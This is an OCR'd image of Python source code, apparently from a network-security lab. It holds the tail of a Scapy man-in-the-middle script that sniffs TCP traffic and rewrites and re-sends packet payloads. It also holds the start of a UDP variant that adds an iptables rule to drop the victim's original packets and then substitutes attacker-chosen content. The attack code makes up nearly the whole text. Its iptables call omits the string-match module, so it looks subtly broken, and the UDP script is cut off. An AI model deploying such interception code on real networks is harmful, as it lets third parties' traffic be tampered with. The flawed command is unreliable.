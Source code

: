   ```python
                  del(newpkt.chksum)
                  del(newpkt[TCP].payload)
                  del(newpkt[TCP].chksum)

                  # Send modified packet
                  send(newpkt / newdata)
                  print("[+] Modified and sent new packet")
              else:
                  print("[-] No target string found.")
          else:
              print("[-] TCP packet with no payload.")
      else:
          pass  # not from target source IP or no IP/TCP

  # --- Start Sniffing ---
  sniff(iface="eth0", filter="tcp", prn=spoof_pkt)


  ```

```python
  # we can do some small modification to the previous code to make it also work for UDP, but I just want to make everything clear and to separate them in different files, so here I will put the UDP code

  #!/usr/bin/env python3
  import argparse
  from scapy.all import *
  import subprocess

  # --- Argument Parsing ---
  parser = argparse.ArgumentParser(description="MITM Packet Modifier for UDP")
  parser.add_argument("-s", "--src", required=True, help="Source IP address to filter")
  parser.add_argument("-f", "--find", required=True, help="Pattern to find in payload")
  parser.add_argument("-r", "--replace", required=True, help="Pattern to replace it with")
  args = parser.parse_args()

  # --- Add iptables DROP rule for original victim packet ---
  iptables_cmd = [
      "iptables",
      "-A", "FORWARD",
      "-s", args.src,
      "-p", "udp",  # <-- UDP protocol now
      "--dport", "9090",
      "--string", args.find,
      "-j", "DROP"
  ]

  try:
      subprocess.run(iptables_cmd, check=True)
      print(f"[+] iptables rule added to drop original packets containing: {args.find}")
  except subprocess.CalledProcessError as e:
      print(f"[!] Failed to add iptables rule: {e}")

  # --- Setup payload replacement ---
  FIND = args.find.encode()
  REPLACE = args.replace.encode()
  SRC_IP = args.src

  # We don't need to keep the same length with UDP, so we can safely skip the check.
  print("[*] MITM Packet Modifier Running on UDP...")
  print(f"    Filtering packets from {SRC_IP}")
  print(f"    Replacing: {FIND} -> {REPLACE}")

```